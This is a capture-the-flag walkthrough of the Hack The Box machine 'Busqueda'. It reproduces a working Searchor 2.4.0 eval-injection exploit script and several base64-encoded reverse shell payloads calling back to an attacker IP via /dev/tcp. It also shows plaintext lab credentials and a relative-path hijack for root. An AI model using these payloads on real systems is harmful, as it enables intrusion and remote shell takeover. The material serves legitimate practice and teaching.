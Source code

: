 # Busqueda
## OS: Linux
## Difficulty: Easy

## Enumeration:

I'll start with a port scan:
```bash
nmap -sC -sV -p- -oA nmap/ 10.129.228.217
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 4f:e3:a6:67:a2:27:f9:11:8d:c3:0e:d7:73:a0:2c:28 (ECDSA)
|_  256 81:6e:78:76:6b:8a:ea:7d:1b:ab:d4:36:b7:f8:ec:c4 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://searcher.htb/
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: Host: searcher.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We can see 2 ports opened. I'll "searcher.htb" to my hosts file and examine the web server on port 80.

![page](IMG/img1.png)

This looks like some sort of search engine.

I'll open up BurpSuite and see if there is any command injection vulnerability.

![req1](IMG/img2.png)

It does not seem like it is but I found out what's being used for the search.

```
</a> and <a  style="color:black" target='_blank' href="https://github.com/ArjunSharda/Searchor">Searchor 2.4.0</a>
```

Looking at the Github repo we can find a vulnerability, "Arbitrary Code using Eval in Searchor CLI's Search
".

## Foothold:

I also found a POC for this exploit.

[POC Arbitrary Code using Eval in Searchor CLI's Search](https://github.com/nikn0laty/Exploit-for-Searchor-2.4.0-Arbitrary-CMD-Injection)

```bash
#!/bin/bash -

default_port="9001"
port="${3:-$default_port}"
rev_shell_b64=$(echo -ne "bash  -c 'bash -i >& /dev/tcp/$2/${port} 0>&1'" | base64)
evil_cmd="',__import__('os').system('echo ${rev_shell_b64}|base64 -d|bash -i')) # junky comment"
plus="+"

echo "---[Reverse Shell Exploit for Searchor <= 2.4.2 (2.4.0)]---"

if [ -z "${evil_cmd##*$plus*}" ]
then
    evil_cmd=$(echo ${evil_cmd} | sed -r 's/[+]+/%2B/g')
fi

if [ $# -ne 0 ]
then
    echo "[*] Input target is $1"
    echo "[*] Input attacker is $2:${port}"
    echo "[*] Run the Reverse Shell... Press Ctrl+C after successful connection"
    curl -s -X POST $1/search -d "engine=Google&query=${evil_cmd}" 1> /dev/null
else 
    echo "[!] Please specify a IP address of target and IP address/Port of attacker for Reverse Shell, for example: 

./exploit.sh <TARGET> <ATTACKER> <PORT> [9001 by default]"
fi
```

It's a command injection. I'll use bash and curl to replicate the POC.

First let's build the reverse shell payload:

```bash
port="6666"
adr="10.10.14.63"
rev_shell_b64=$(echo -ne "bash  -c 'bash -i >& /dev/tcp/$adr/$port 0>&1'" | base64)
payload_cmd="',__import__('os').system('echo ${rev_shell_b64}|base64 -d|bash -i')) # idk id"

plus="+"
if [ -z "${payload_cmd##*$plus*}" ]
then
    payload_cmd=$(echo ${payload_cmd} | sed -r 's/[+]+/%2B/g')
fi

echo $payload_cmd
```

```payload
',__import__('os').system('echo YmFzaCAgLWMgJ2Jhc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNjMvNjY2NiAwPiYxJw==|base64 -d|bash -i')) # idk id
```

Now let's send it:
```bash
curl -s -X POST http://searcher.htb/search -d "engine=Google&query=',__import__('os').system('echo YmFzaCAgLWMgJ2Jhc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNjMvNjY2NiAwPiYxJw==|base64 -d|bash -i')) # idk id"
```

And we got a hit.

![revShell](IMG/img3.png)

Now we can get the user flag.

```bash
cat ~/user.txt
```
## We got the user flag!

## Privilege Escalation:

I'll first establish a more stable connection via ssh.

Found an interesting file:

```bash
cat .gitconfig 
[user]
        email = cody@searcher.htb
        name = cody
[core]
        hooksPath = no-hooks
```

I've gone back to the web app directory and found a password for this account:
```bash
svc@busqueda:/var/www/app/.git$ cat config 
[core]
        repositoryformatversion = 0
        filemode = true
        bare = false
        logallrefupdates = true
[remote "origin"]
        url = http://cody:jh1usoih2bkjaspwe92@gitea.searcher.htb/cody/Searcher_site.git
        fetch = +refs/heads/*:refs/remotes/origin/*
[branch "main"]
        remote = origin
        merge = refs/heads/main

```

We can use it to list binaries we can run as root.

```bash
sudo -l 
jh1usoih2bkjaspwe92

User svc may run the following commands on busqueda:
    (root) /usr/bin/python3 /opt/scripts/system-checkup.py *
```

Let's see what that script does.
```bash
cat /opt/scripts/system-checkup.py

cat: /opt/scripts/system-checkup.py: Permission denied
```

Bummer. Maybe running it will give us more information.

```bash
sudo /usr/bin/python3 /opt/scripts/system-checkup.py .
Usage: /opt/scripts/system-checkup.py <action> (arg1) (arg2)

     docker-ps     : List running docker containers
     docker-inspect : Inpect a certain docker container
     full-checkup  : Run a full system checkup

```

```bash
sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-ps
CONTAINER ID   IMAGE                COMMAND                  CREATED         STATUS             PORTS                                             NAMES
960873171e2e   gitea/gitea:latest   "/usr/bin/entrypoint…"   20 months ago   Up About an hour   127.0.0.1:3000->3000/tcp, 127.0.0.1:222->22/tcp   gitea
f84a6b33fb5a   mysql:8              "docker-entrypoint.s…"   20 months ago   Up About an hour   127.0.0.1:3306->3306/tcp, 33060/tcp               mysql_db
```

I'll enumerate these services.

### Git tea

I'll start by inspecting the container's config file.

```bash
sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect {{json\ .Config}} 960873171e2e


{"Hostname":"960873171e2e","Domainname":"","User":"","AttachStdin":false,"AttachStdout":false,"AttachStderr":false,"ExposedPorts":{"22/tcp":{},"3000/tcp":{}},"Tty":false,"OpenStdin":false,"StdinOnce":false,"Env":["USER_UID=115","USER_GID=121","GITEA__database__DB_TYPE=mysql","GITEA__database__HOST=db:3306","GITEA__database__NAME=gitea","GITEA__database__USER=gitea","GITEA__database__PASSWD=yuiu1hoiu4i5ho1uh","PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin","USER=git","GITEA_CUSTOM=/data/gitea"],"Cmd":["/bin/s6-svscan","/etc/s6"],"Image":"gitea/gitea:latest","Volumes":{"/data":{},"/etc/localtime":{},"/etc/timezone":{}},"WorkingDir":"","Entrypoint":["/usr/bin/entrypoint"],"OnBuild":null,"Labels":{"com.docker.compose.config-hash":"e9e6ff8e594f3a8c77b688e35f3fe9163fe99c66597b19bdd03f9256d630f515","com.docker.compose.container-number":"1","com.docker.compose.oneoff":"False","com.docker.compose.project":"docker","com.docker.compose.project.config_files":"docker-compose.yml","com.docker.compose.project.working_dir":"/root/scripts/docker","com.docker.compose.service":"server","com.docker.compose.version":"1.29.2","maintainer":"maintainers@gitea.io","org.opencontainers.image.created":"2022-11-24T13:22:00Z","org.opencontainers.image.revision":"9bccc60cf51f3b4070f5506b042a3d9a1442c73d","org.opencontainers.image.source":"https://github.com/go-gitea/gitea.git","org.opencontainers.image.url":"https://github.com/go-gitea/gitea"}}

```

We can see a password for the git tea database in the config file.

```
GITEA__database__PASSWD=yuiu1hoiu4i5ho1uh
``

I'll add gitea.searcher.htb to my hosts file.

With the credentials we have we can login as the administrator.

```bash
administrator : yuiu1hoiu4i5ho1uh
```


Inspecting the system-checkup.py I found something that can be used for privilege escalation.

```python
elif action == 'full-checkup':
        try:
            arg_list = ['./full-checkup.sh']
            print(run_command(arg_list))
            print('[+] Done!')
        except:
            print('Something went wrong')
            exit(1)
```


We can see that the relative path for "full-checkup.sh" is being used.


We can make a reverse shell script with that name in the ~ directory. After running the command we should have a connection as the root user.

Script:
```bash
#!/bin/bash

bash  -c 'bash -i >& /dev/tcp/10.10.14.63/6666 0>&1'
```

I'll open a listening port and run the command:

```bash 
sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup
```

Note make sure to use chmod +x to add the executable flag to the script.

And it worked!

![root](IMG/img5.png)

We are now the root user. Let's get the flag.

```bash
cat /root/root.txt
```

## We got the root flag!
